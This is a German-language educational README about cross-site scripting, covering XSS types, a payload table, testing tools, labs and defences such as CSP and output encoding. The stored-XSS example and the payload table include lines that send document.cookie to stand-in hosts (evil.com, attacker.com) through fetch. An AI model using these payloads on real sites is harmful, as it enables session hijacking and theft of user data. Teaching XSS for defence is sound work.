 # ⚠️ Cross-Site Scripting (XSS) – Überblick, Typen, Schutz

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Grundlagen & Ziel](#grundlagen--ziel)
- [Typen von XSS](#typen-von-xss)
- [Nützliche XSS Payloads](#nützliche-xss-payloads)
- [Praxis – Testen mit XSS](#praxis---testen-mit-xss)
- [Schutzmaßnahmen gegen XSS](#schutzmaßnahmen-gegen-xss)
- [Bonus: XSS in modernen Frameworks](#bonus-xss-in-modernen-frameworks)
- [Nützliche Links](#nützliche-links)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

**Cross-Site Scripting (XSS)** ist eine Web-Sicherheitslücke, bei der Angreifer **schädlichen JavaScript-Code** in Webseiten einschleusen, der im Browser anderer Benutzer ausgeführt wird.

💡 XSS zählt laut [OWASP Top 10](https://owasp.org/www-project-top-ten/) seit Jahren zu den **häufigsten Sicherheitslücken** in Webanwendungen.

---

## Grundlagen & Ziel

**Ziel von XSS**:  
➡️ Ausführen von JavaScript im Kontext des Opfers, z. B. um:
- Cookies zu stehlen (`document.cookie`)
- Session-Tokens zu exfiltrieren
- Inhalte zu verändern (defacement)
- Phishing-Popups anzuzeigen
- Keylogging durchzuführen
- Zugriff auf Browser-APIs (z. B. `localStorage`) zu erlangen

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typen von XSS

### 1. **Reflected XSS** (nicht persistent)

- Eingabe wird sofort über Antwort reflektiert (z. B. über URL-Parameter)
- Kein Speichern auf dem Server
- Typisch: Formulare, URLs, Suchfelder

**Beispiel:**
```html
URL: http://example.com/search?q=<script>alert('XSS')</script>
```

### 2. Stored XSS (persistent)

- Bösartiger Code wird dauerhaft gespeichert (z. B. in Kommentaren, Foren, Profilfeldern)
- Wird jedes Mal bei Anzeige ausgeführt

Beispiel:
```html
<!-- Ein Benutzer speichert im Kommentar: -->
<script>fetch('http://evil.com?cookie=' + document.cookie)</script>
```

### 3. DOM-based XSS

- Manipuliert das DOM rein im Browser, ohne dass der Server beteiligt ist
- XSS entsteht durch unsichere JavaScript-Verarbeitung im Frontend

Beispiel:
```javascript
// gefährlich:
document.body.innerHTML = location.hash;
// Beispiel-URL: http://site.com/#<img src=x onerror=alert(1)>
```

----

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche XSS Payloads

| Zweck                   | Beispiel-Payload                                                   |
| ----------------------- | ------------------------------------------------------------------ |
| Einfacher Test          | `<script>alert(1)</script>`                                        |
| HTML-Injection          | `<img src=x onerror=alert(1)>`                                     |
| Cookie stehlen          | `<script>fetch('http://attacker.com?c='+document.cookie)</script>` |
| DOM XSS                 | `#<img src=x onerror=alert(1)>`                                    |
| JavaScript-only (Event) | `<body onload=alert(1)>`                                           |

🔐 Tipp: Nutze Tools wie [XSS Cheat Sheet (PortSwigger)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

---

## Praxis - Testen mit XSS

### 🔬 Tools

| Tool                   | Beschreibung                               |
| ---------------------- | ------------------------------------------ |
| Burp Suite             | Proxy zum Einfügen & Abfangen von Payloads |
| OWASP ZAP              | Automatisierte Scans + manuelles Testen    |
| XSS Hunter             | Entdeckung & Überwachung von Blind XSS     |
| XSStrike               | Fuzzer mit intelligenter Erkennung         |
| Google Chrome DevTools | Testumgebung im Browser                    |

### 🧪 Testbare Labs

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)
- [HackTheBox Academy: XSS Fundamentals](https://academy.hackthebox.com/)
- [TryHackMe: XSS Room](https://tryhackme.com/room/xss)

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen XSS

### ✅ Server-seitiger Schutz

| Maßnahme                      | Beschreibung                                      |
| ----------------------------- | ------------------------------------------------- |
| Input Validierung             | Unerwartete Zeichen blockieren oder escapen       |
| Output-Encoding               | Spezielle Zeichen vor HTML-Ausgabe entschärfen    |
| Content Security Policy (CSP) | Einschränkung erlaubter Skriptquellen             |
| HTTPOnly-Flag bei Cookies     | Schutz vor JavaScript-Zugriff auf Session         |
| Frameworks nutzen             | Z. B. React, Vue: automatische Kontext-Isolierung |


### ✅ Client-seitiger Schutz

CSP Header z. B.:
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

X-XSS-Protection Header (veraltet, aber teilweise wirksam):
```http
X-XSS-Protection: 1; mode=block
```

---

## Bonus: XSS in modernen Frameworks

- React, Angular, Vue nutzen intern DOM-Sanitizer
- Problematisch bleiben:
    - `dangerouslySetInnerHTML` (React)
    - `v-html` (Vue)
    - `innerHTML`, `document.write()`, `eval()` (JS allgemein)

---


## Nützliche Links

- [OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger XSS Academy](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Cheat Sheet (OWASP)](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [PayloadsAllTheThings: XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---